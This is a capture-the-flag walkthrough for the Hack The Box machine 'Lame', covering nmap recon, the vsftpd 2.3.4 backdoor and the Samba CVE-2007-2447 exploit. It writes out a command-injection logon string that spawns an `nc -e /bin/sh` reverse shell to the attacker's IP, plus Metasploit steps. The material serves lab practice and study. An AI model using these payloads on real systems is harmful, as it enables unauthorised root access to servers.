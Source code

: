 ## 🧠 HTB: Lame - Full Walkthrough

---

### 📦 Box Info

- **Name:** Lame
- **Release Date:** 14 Mar 2017
- **OS:** [Linux](Linux)
- **Difficulty:** Easy [20 pts]
- **Creator:** ch4p

---

## 🔎 Recon

```bash
nmap -sT -p- --min-rate 10000 -oA scans/alltcp 10.10.10.3
nmap -sU -p- --min-rate 10000 -oA scans/alludp 10.10.10.3
nmap -p 21,22,139,445,3632 -sV -sC -oA scans/tcpscripts 10.10.10.3
```

**Services Found:**

- [FTP](FTP) (vsftpd 2.3.4)
- [SSH](SSH)
- [Samba](SMB)
- distcc

---

## 📂 FTP (Port 21)

- Anonymous login **allowed** ✅
    
- Version: `vsftpd 2.3.4`
    
- [Exploit found](https://www.exploit-db.com/exploits/17491): **Backdoor Command Execution**
    

Tested both manually and via [Metasploit](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/), but no shell — likely **firewalled** 🔒.

---

## 🗂️ SMB (Port 445)

```bash
smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'
```

- Accessible share: `tmp` (mapped to /tmp)
    
- [Exploit](https://www.exploit-db.com/exploits/16320): **CVE-2007-2447** (Username map script)
    

### 🧪 Manual Exploit:

```
nc -lvnp 443
```

```bash
smbclient //10.10.10.3/tmp
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
```

## 🧙 Shell Cleanup

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

🔥 Got root shell! `uid=0(root)`

---

## 🛠️ Metasploit Exploitation

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST <your_ip>
set LPORT 443
set payload cmd/unix/reverse
run
```

📟 Reverse shell opened with root privileges.

---

## 🧨 VSFTPD Backdoor Analysis (Beyond Root)

- Trigger **backdoor** via username `USER backdoor:)`
    
- Opens port 6200, but **blocked externally** by a firewall
    
- Confirmed via internal test with netcat from the box itself
    

```bash
nc 127.0.0.1 6200  # Success!
```

✅ Backdoor functional **internally**, not from HTB network

---

## 🏁 Flags

```bash
cat /home/makis/user.txt
cat /root/root.txt
```

---

## 📎 Summary

- ✅ [VSFTPD](https://chatgpt.com/c/ftp): Backdoor blocked by firewall
- ✅ [Samba](https://chatgpt.com/c/smb): CVE-2007-2447 yields **instant root shell**
- ✅ [Metasploit](https://metasploit.help.rapid7.com/docs): Supported but not required
- ✅ [Manual exploitation](https://www.exploit-db.com/exploits/16320): Viable and educational

🎉 Rooted HTB: Lame — Classic, simple, and a good OSCP prep box!

---

📬 Created by [0xdf](https://0xdf.gitlab.io/) ☕

🧠 Happy hacking!